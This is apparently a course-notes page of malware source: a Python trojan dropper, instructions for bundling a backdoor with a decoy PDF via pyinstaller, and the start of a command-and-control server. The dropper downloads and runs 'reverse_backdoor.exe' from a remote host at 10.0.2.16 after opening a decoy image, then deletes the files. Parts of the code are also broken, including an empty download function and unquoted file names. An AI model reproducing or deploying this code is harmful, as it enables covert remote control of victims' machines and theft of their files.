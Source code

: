 ```
#!/usr/bin/env python

# trojan.py

import os, requests, subprocess, tempfile

def download(url):


temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)

download("http://10.0.2.16/files/car.jpg")
subprocess.Popen("car.jpg", shell=True)

download("http://10.0.2.16/files/reverse_backdoor.exe")
subprocess.call("reverse_backdoor.exe", shell=True)

os.remove(car.jpg)
os.remove(reverse_backdoor.exe)
```

#### Trojan by Embedding File in Program Code 

- `wine pyinstaller.exe --add-data "root/Downloads/sample.pdf;." --onefile --noconsole reverse_backdoor.py`: package file with code
- Add the following in backdoor.py:

```
file_name = sys._MEIPASS + "\sample.pdf"
subprocess.Popen(file_name, shell=True)
```



```
#!/usr/bin/env python

# command_control.py

import socket
import termcolor
import json
import os
import threading

def reliable_recv(target):
    data = ''
    while True:
        try:
            data = data + target.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(target, data):
    jsondata = json.dumps(data)
    target.send(jsondata.encode())

def upload_file(target, file_name):
    f = open(file_name, 'rb')
    target.send(f.read())

def download_file(target, file_name):
    f = open(file_name, 'wb')
    target.settimeout(1)
```